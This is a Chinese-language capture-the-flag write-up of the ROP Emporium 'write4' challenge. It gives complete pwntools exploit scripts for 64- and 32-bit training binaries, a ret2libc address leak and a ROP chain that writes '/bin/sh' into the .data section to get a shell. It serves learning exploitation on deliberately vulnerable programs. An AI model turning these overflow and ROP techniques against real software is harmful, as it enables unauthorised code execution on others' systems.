via：https://ropemporium.com/challenge/write4.html

# write4

Our first foray into proper gadget use. A call to system() is still present but we'll need to write a string into memory somehow.
Click below to download the binary.

[64bit](https://ropemporium.com/binary/write4.zip) [32bit](https://ropemporium.com/binary/write432.zip)

## Cord cut

On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

### Read/Write

The important thing to realise is that ROP is just a form of arbitrary code execution and if we're creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg. Nonetheless it is possible to solve this challenge by leveraging functions like fgets() to write to memory locations of your choosing so it's worth trying to do it that way once you've solved it using the intended technique.

### What/Where

Perhaps the most important thing to consider in this challenge is **where** we're going to write our string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose. Consider how much space each section might give you to work with and whether corrupting the information stored at these locations will cause you problems later if you need some kind of stability from this binary.

### Decisions, decisions

Once you've figured out how to write your string into memory and where to write it, go ahead and call system() with its location as your only argument. Are you going to cat flag.txt or drop a shell with /bin/sh? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.

### So much room for activities

There are indeed three very different ways to solve the 64 bit version of this challenge, including the intended method. Built-in functionality will give you a win if you're willing to borrow a technique from the 'pivot' challenge and an oversight in how the pwnme() function was constructed can get you a shell in a single link chain 🤫


### x64

这个题目我是用 ROP + ret2libc 去解的，因为给的程式本身没有 /bin/sh 所以我就跳到 libc 去拿

开了 aslr ，libc 的基地址是随机的

查到 /bin/sh 在 libc 的偏移 

```python 
bin_sh = next(libc.search("/bin/sh\x00"))
```

第一次溢出我用 puts 泄露出 puts 的 got

```python
puts_offset = libc.symbols["puts"]
puts_got = write4.got['puts']
puts_plt = write4.plt["puts"]
pwnme = write4.symbols["pwnme"]

exp = "A" * 0x28
exp += p64(pop_rdi_ret)
exp += p64(puts_got)
exp += p64(puts_plt)
exp += p64(pwnme)
```

然后用这个地址减去 puts 在 libc 的偏移量就能拿到 libc 的基地址

```python
p = process("write4")
print(p.recv())
# p.recvuntil("> ")
p.sendline(exp)
puts_got_libc = u64(p.recv()[:8]) & 0xffffffffffff
libc_base = puts_got_libc - puts_offset
print(hex(libc_base))
```

用基地址加上这个偏移量就能得到 /bin/sh 的真正的线性地址，第二次溢出，成功执行 `system("/bin/sh");`

```python
exp0 = "A" * 0x28
exp0 += p64(pop_rdi_ret)
exp0 += p64(libc_base + bin_sh)
exp0 += p64(system_plt)
exp0 += p64(pwnme)
p.sendline(exp0)
p.sendline("cat flag.txt")
p.interactive()
```


完整的 payload：

```python
from pwn import *

context.terminal = ["tmux", "split-window", "-h"]
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
write4 = ELF("write4")
bin_sh = next(libc.search("/bin/sh\x00"))
system_plt = write4.plt["system"]
pop_rdi_ret = 0x0000000000400893
libc_base = 0x0
puts_offset = libc.symbols["puts"]
puts_got = write4.got['puts']
puts_plt = write4.plt["puts"]
pwnme = write4.symbols["pwnme"]

exp = "A" * 0x28
exp += p64(pop_rdi_ret)
exp += p64(puts_got)
exp += p64(puts_plt)
exp += p64(pwnme)

p = process("write4")
print(p.recv())
# p.recvuntil("> ")
p.sendline(exp)
puts_got_libc = u64(p.recv()[:8]) & 0xffffffffffff
libc_base = puts_got_libc - puts_offset
print(hex(libc_base))

# gdb.attach(pidof(p)[0])

exp0 = "A" * 0x28
exp0 += p64(pop_rdi_ret)
exp0 += p64(libc_base + bin_sh)
exp0 += p64(system_plt)
exp0 += p64(pwnme)
p.sendline(exp0)
p.sendline("cat flag.txt")
p.interactive()
```

这里很奇怪，我在 `ubuntu:19.04` 下这个 `payload` 是打不动的



我动态调试过了，调用没有问题





 可以看到 `do_system (line=0x7f16202fa613 "/bin/sh")`

但是我就是拿不到 `shell`，`dmesg -c` 都懒得管了

然后我在 `ubuntu:16.04` 上跑




其实这个解法并不是官方的期望解法

其实还有别的解法

当时在 Ghidra 的时候我有看到一个函数：`usefulGadgets()`



其实这是官方故意写的，里面就有两句汇编

```bash
        00400820 4d 89 3e        MOV        qword ptr [R14],R15
        00400823 c3              RET
```

回去到上面去看官方 Read/Write 描述，意思很明显，不就是没有 `/bin/cat flag.txt` 吗，现在给你一个写入内存的机会，你把字符串写进去

 `MOV  qword ptr [R14],R15` 的意思是：把 `r15` 寄存器里的东西，写入 `r14` 寄存器所存的地址中去

就是一个任意地址（fake 任意）写，现在有了这个还不行，得想办法设置 r14 和 r15 寄存器的内容

先看一下每个段的权限，找个地方写入 `/bin/cat flag.txt` 



可以看到

```asm
19  0x00000e10    0x8 0x00600e10    0x8 -rw- .init_array
20  0x00000e18    0x8 0x00600e18    0x8 -rw- .fini_array
21  0x00000e20    0x8 0x00600e20    0x8 -rw- .jcr
22  0x00000e28  0x1d0 0x00600e28  0x1d0 -rw- .dynamic
23  0x00000ff8    0x8 0x00600ff8    0x8 -rw- .got
24  0x00001000   0x50 0x00601000   0x50 -rw- .got.plt
25  0x00001050   0x10 0x00601050   0x10 -rw- .data
26  0x00001060    0x0 0x00601060   0x30 -rw- .bss
```

直接选写入 `.data` 段吧，我们要把 `r14` 的值设置为 `0x00601050`，`r15` 寄存器的值设置为 `/bin/sh`，因为 `/bin/cat flag.txt` 的长度超过了了 `r15` 所能容纳的大小

设置寄存器，输入都是在栈上，当然是要找 `pop` 了，直接 `ROPgadget` 找



找到了：`pop r14 ; pop r15 ; ret` ，地址：`0x0000000000400890`

现在参数的问题解决的，直接用 `pwntools` 的 `ELF.plt` 就能得到 `system` 的 `plt`。 

漏洞点位于 `pwnme` 的 `fgets`



填充到返回地址需要：`0x20 + 0x8 = 0x28` Bytes

还有就是，`system` 参数是要放到 `rdi` 里面的，还需要一个 `pop rdi; ret`，看上面的 ROPgadget 的结果，位于：`0x0000000000400893` 


万事俱备，写 payload：

```python
from pwn import *

#context.terminal = ["tmux", "split-window", "-h"]
write4 = ELF("./write4")
p = process("./write4")
system_plt = write4.plt["system"]
data_section = 0x00601050
pop_r14_pop_r15_ret = 0x0000000000400890
pop_rdi_ret = 0x0000000000400893
mov_r14_r15_ret = 0x00400820
bin_sh_str = "/bin/sh\x00"

exp = "A" * 0x28
exp += p64(pop_r14_pop_r15_ret)
exp += p64(data_section)
exp += bin_sh_str
exp += p64(mov_r14_r15_ret)

exp += p64(pop_rdi_ret)
exp += p64(data_section)
exp += p64(system_plt)

gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```


看 DISASM 和 STACK 窗口，和预期的一样



成功拿到 shell

 

pwn！

其实我们的 payload 用到的 gadget 拼起来就是这样的：

```asm
  0x400804 <pwnme+79>               nop    
   0x400805 <pwnme+80>               leave  
   0x400806 <pwnme+81>               ret    
    ↓
   0x400890 <__libc_csu_init+96>     pop    r14
 ► 0x400892 <__libc_csu_init+98>     pop    r15
   0x400894 <__libc_csu_init+100>    ret    
    ↓
   0x400820 <usefulGadgets>          mov    qword ptr [r14], r15
   0x400823 <usefulGadgets+3>        ret    
    ↓
   0x400893 <__libc_csu_init+99>     pop    rdi
   0x400894 <__libc_csu_init+100>    ret    
    ↓
   0x4005e0 <system@plt>             jmp    qword ptr [rip + 0x200a3a] <0x601020>

```

看到了吗，其实就是这样


其实还有一种解法，就是 `.got` 是可写的，我们可以改 `.got` 从而劫持程序流程，我就不写了


### x86

一样的思路，这个也有一个 `usefulGadgets()` 函数



可以：

```asm
        08048670 89 2f           MOV        dword ptr [EDI],EBP
        08048672 c3              RET
```

好了，不啰嗦，现在凌晨 4 点多了

找 

```asm
pop ebp ; ret
pop edi; ret
```




```asm
0x080486da : pop edi ; pop ebp ; ret
```

位于：`0x080486da`



看到 `.data` 可写：`0x0804a028`

`pwnme` 的 `fgets`



填充长度：`0x28 + 0x4 = 0x2c`

好了 写 payload：

```python
from pwn import *

p = process("./write432")
write432 = ELF("./write432")

system_plt = write432.plt["system"]
data_section = 0x0804a028
mov_edi_ebp_ret = 0x08048670
pop_edi_pop_ebp_ret = 0x080486da
bin_sh_str = "bash"

exp = "A" * 0x2c
exp += p32(pop_edi_pop_ebp_ret)
exp += p32(data_section)
exp += bin_sh_str
exp += p32(mov_edi_ebp_ret)
exp += p32(system_plt)
exp += p32(0xdeadbeef)
exp += p32(data_section)

gdb.attach(pidof(p)[0])

p.sendline(exp)
p.interactive()
```



看 DISASM 流程执行正常



pwn！